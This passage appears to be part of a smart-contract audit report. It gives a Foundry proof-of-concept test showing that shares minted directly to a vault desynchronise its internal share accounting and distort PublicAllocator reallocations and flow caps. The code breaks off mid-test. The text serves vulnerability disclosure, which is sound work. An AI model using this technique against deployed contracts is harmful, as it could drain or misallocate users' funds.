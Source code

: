 In order to reproduce this vulnerability, paste the following function in `PublicAllocatorTest.sol` and run `forge test --mt testRellocateToBug -vv` :

```solidity
    function testRellocateToBug() public {
        flowCaps.push(FlowCapsConfig(idleVault, FlowCaps(100e18, 100e18)));
        flowCaps.push(FlowCapsConfig(allMarkets[0], FlowCaps(100e18, 100e18)));
        vm.prank(OWNER);
        publicAllocator.setFlowCaps(address(vault), flowCaps);
        
        // Initial deposit through PublicAllocator (tracked internally)
        withdrawals.push(Withdrawal(idleVault, 50e18));
        publicAllocator.reallocateTo(address(vault), withdrawals, allMarkets[0]);
        
        console.log("=== After normal deposit ===");
        uint256 internalShares1 = vault.config(allMarkets[0]).balance;
        uint256 realShares1 = allMarkets[0].balanceOf(address(vault));
        console.log("Internal shares:                   ", internalShares1);
        console.log("Real shares:                       ", realShares1);
        
        // Mint strategy shares directly and transfer to vault
        // This creates the discrepancy between internal tracking and real balance
        loanToken.setBalance(address(this), 20e18);
        loanToken.approve(address(allMarkets[0]), 20e18);
        uint256 directShares = allMarkets[0].deposit(20e18, address(vault)); // Mint shares directly to vault
        
        console.log("\n=== After direct share transfer ===");
        uint256 internalShares2 = vault.config(allMarkets[0]).balance;
        uint256 realShares2 = allMarkets[0].balanceOf(address(vault));
        uint256 realAssets = allMarkets[0].maxWithdraw(address(vault));
        uint256 internalAssets = allMarkets[0].previewRedeem(internalShares2);
        console.log("Internal shares:                   ", internalShares2);
        console.log("Real shares:                       ", realShares2);
        
        // At this point, we have a share disparency, which seems to not be a problem since EulerEarn is tracking its shares internally and only this is supposed to be the source of truth in its calculations. However, if we try to perform a reallocate, we will see the problem.

        // Record flow caps before reallocation to show the issue.
        FlowCaps memory withdrawFlowCapsBefore = publicAllocator.flowCaps(address(vault), allMarkets[0]);
        FlowCaps memory supplyFlowCapsBefore = publicAllocator.flowCaps(address(vault), idleVault);
        
        console.log("\n=== Flow caps BEFORE reallocation ===");
        console.log("Withdraw strategy maxIn:            ", withdrawFlowCapsBefore.maxIn);
        console.log("Withdraw strategy maxOut:          ", withdrawFlowCapsBefore.maxOut);
        console.log("Supply strategy maxIn:             ", supplyFlowCapsBefore.maxIn);
        console.log("Supply strategy maxOut:             ", supplyFlowCapsBefore.maxOut);

        delete withdrawals;
        uint256 requestedWithdraw = 30e18;
        withdrawals.push(Withdrawal(allMarkets[0], uint128(requestedWithdraw)));
        
        uint256 beforeAssets = allMarkets[0].maxWithdraw(address(vault));

        console.log("\n=== Reallocation ===");
        console.log("Requested withdrawal:              ", requestedWithdraw);
        publicAllocator.reallocateTo(address(vault), withdrawals, idleVault);
        
        uint256 afterAssets = allMarkets[0].maxWithdraw(address(vault));
        uint256 actualWithdrawn = beforeAssets - afterAssets;
        console.log("Actual withdrawn:                  ", actualWithdrawn);
        
```